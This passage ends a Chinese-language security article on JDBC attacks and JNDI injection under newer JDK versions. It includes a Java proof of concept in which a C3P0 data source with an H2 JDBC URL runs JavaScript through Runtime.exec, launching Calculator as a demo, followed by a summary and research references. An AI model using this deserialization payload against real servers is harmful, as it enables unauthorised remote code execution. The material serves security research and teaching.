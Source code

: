 对于 C3p0 H2，我们可以进行如下利用，最终也是落脚到 JavaScript 引擎的命令执行，我们同样需要将 Jackson 链中 POJONode 的参数的 dataSource 替换为如下代码：

```java
String command = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
        "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
        "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
        "$$\n";
ComboPooledDataSource dataSource = new ComboPooledDataSource();
dataSource.setJdbcUrl(command);
```

## 五、总结

本文首先回顾了基础的 JDBC 与 JDBC Attack 利用，然后分析了高版本 JDK 下 JNDI 注入遇到的困境与可行的解决方案，最后探讨了了使用 JDBC Attack 与原生反序列化结合来扩充高版本 JDK 下 JNDI 注入的思路。

在高版本 JDK 的 JNDI 注入中，我们无法像低版本的 JDK 一样直接进行利用，需要寻找目标本地依赖的攻击面，根据不同的目标进行具体的利用，JDBC 中的 getter 利用是可行的选择之一。

## 六、参考链接

1. [Make JDBC Attacks Brilliant Again 番外篇](https://tttang.com/archive/1462/)
2. [Deserial Sink With JDBC](https://github.com/luelueking/Deserial_Sink_With_JDBC)
3. [Make JDBC Attack Brilliant Again](https://conference.hitb.org/files/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf)
